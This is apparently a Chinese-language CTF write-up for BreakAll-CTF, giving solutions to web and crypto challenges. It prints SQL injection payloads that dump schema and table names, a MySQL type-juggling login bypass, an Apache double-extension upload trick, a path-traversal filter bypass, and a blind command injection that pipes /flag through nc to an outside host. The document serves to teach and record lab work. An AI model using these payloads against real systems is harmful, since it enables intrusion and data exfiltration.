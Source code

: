 # BreakAll-CTF

有些misc的script隨便寫寫，解完就忘記丟哪了，所以沒放上來

如果有找到會再補上

![](https://github.com/w181496/CTF/blob/master/BreakAll-CTF/solved.png)

Rank: 1

## EasyPeasy

單純的Union Based MySQL Injection

`id = 1 and 1 = 2 union select 1, 2, 3`

`id = 1 and 1 = 2 union select 1, 2, group_concat(schema_name) from information_schema.schemata`

`id = 1 and 1 = 2 union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema='fl4g'`

`id = 1 and 1 = 2 union select 1, 2, group_concat(column_name) from information_schema.columns where table_name='secret'`

`id = 1 and 1 = 2 union select 1, 2, THIS_IS_FLAG_YO from fl4g.secret`


## EasyPeasy2

只是把回顯關掉

但是有True / False

所以可以用Boolean Based SQL Injection

比較意外的是這題其實可以用SQLmap，但解出來的人居然不多XD


## four-char-inj 

這題的話其實就是考MySQL的觀念

MySQL有點weak type的味道

所以`/?user='|0%23`就能過了，pass用不到

因為`'字串' | 0` 會變成0，所以整句變成`WHERE username=0`

所以假設DB中的username是`admin`，那這個條件就會成立 (類似PHP)

舉個簡單例子：`SELECT 'admin'=0;`

會回傳`1`

另外這題解答不唯一

還可以`/?user='=0%23`, `/?user='^0%23`等


## sh3ll_upload3r

這題就很單純，能上傳的內容基本上不能變，也繞不過

但他有擋副檔名，不能出現`h`

所以其實就是要考Apache解析漏洞

上傳`shell.php.abc`

再去訪問`/upload/shell.php.abc`就會跑這隻腳本惹


## youtube_viewer

這題居然沒人解XDDD

這題是某場CTF的題目改編的


因為沒有Source Code，也沒有回顯

加上題目說後端會去下載/查看youtube image

所以可以猜測可能背後是用curl或wget之類的command

(一般人很容易往XSS, SQLinj, SSRF...等方向想，但都不會想到可能是Command Injection XD)

他還提示我們多踹一些Payload，所以可以猜測應該不是常見的情境

試試常用的幾個：`&& sleep 10`, `| sleep 10`, ... 都無法

最後試: `';sleep 10;'`

OK，成功了

所以猜測他背後應該是長這樣：`system("curl 'https://youtube.com/xxxx/$myinput'")`

但沒有回顯，所以我們要把資料傳出來

可以這樣：`';cat /flag | base64 | nc ctf.kaibro.tw 5566;'`

## easy_lfi

這題會把`../`砍掉

所以只要改用`....//`，就會被取代成原本的`../`

`....//....//....//....//....//....//....//flag`

非預期解：

可以直接`/flag`


## git leak

就跟題目名字一樣

單純的git還原

就看得到FLAG惹XD


## RSA 後門 (1)

題目給了`d^2*e + 7phi`

又知`c = m^e`

所以`c^(d^2*e+7phi)%n = m^(d^2*e^2+7*phi*e)%n = m`

---

